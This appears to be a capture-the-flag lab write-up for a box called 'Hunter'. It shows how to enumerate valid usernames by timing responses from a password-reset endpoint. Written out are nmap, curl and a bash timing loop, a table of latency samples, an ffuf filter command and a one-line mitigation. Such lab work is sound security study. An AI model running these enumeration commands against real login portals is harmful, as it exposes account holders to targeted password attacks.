


Authorized lab write-up. Lab author: Tyler Ramsbey. Solved 2026-08-07.
| Challenge / Box | Hunter |
| Platform | HackSmarter (DEFCON free access) |
| Category | Web application · authentication side channel |
| Vulnerability | Username enumeration via response latency on /reset |
| Difficulty | Easy |
| Target (lab) | 10.1.4.200 · Werkzeug/3.1.4 · Python 3.10.12 |
| Outcome | Valid username identified · answer joey |
application/x-www-form-urlencoded)When the application returns the same HTML for every username, measure how long the server takes. A valid account still pays the cost of “real work” (token + email path); invalid accounts return early. Latency is the oracle.
Black-box assessment of a client external login portal. OSINT produced a candidate
username list (usernames-hunter.txt). Goal: find which name is valid.
nmap -sV -sC -p- --min-rate 1000 -T4 10.1.4.200
GET / → POST /login.Interesting paths:
/ · /login — username + password/reset — username only (“send reset link”)
GET /reset → POST /reset.Wrong password / random users on login and reset always return the same body size and message:
If an account matches that username, a reset link has been sent to the email on file.# same size every time
curl -s -o /dev/null -w '%{size_download}\n' -X POST http://10.1.4.200/reset -d 'username=admin'
curl -s -o /dev/null -w '%{size_download}\n' -X POST http://10.1.4.200/reset -d 'username=joey'
# both → 1984/resetfor u in joey admin root nonexistentxyz salvador tyler user guest; do
for i in 1 2 3; do
t=$(curl -s -o /dev/null -w '%{time_total}' \
-X POST http://10.1.4.200/reset -d "username=${u}")
echo "$u $i $t"
done
done| username | sample 1 | sample 2 | sample 3 |
|---|---|---|---|
| joey | 1.374 s | 1.370 s | 1.375 s |
| admin | 0.604 s | 0.545 s | 0.532 s |
| root | 0.600 s | 0.548 s | 0.602 s |
| nonexistentxyz | 0.537 s | 0.572 s | 0.570 s |
| salvador | 0.548 s | 0.555 s | 0.554 s |
| tyler | 0.575 s | 0.570 s | 0.552 s |
| user | 0.533 s | 0.598 s | 0.540 s |
| guest | 0.578 s | 0.546 s | 0.871 s |
joey is a stable ~1.37 s outlier (~2.5× the ~0.55 s baseline). One noisy
guest sample still never reaches the joey band — take three samples and use the median.
ffuf-style filter (once you have the wordlist):
ffuf -w usernames-hunter.txt \
-u http://10.1.4.200/reset \
-X POST -H 'Content-Type: application/x-www-form-urlencoded' \
-d 'username=FUZZ' \
-ft '<500'/reset per IP and per username; CAPTCHA after N tries.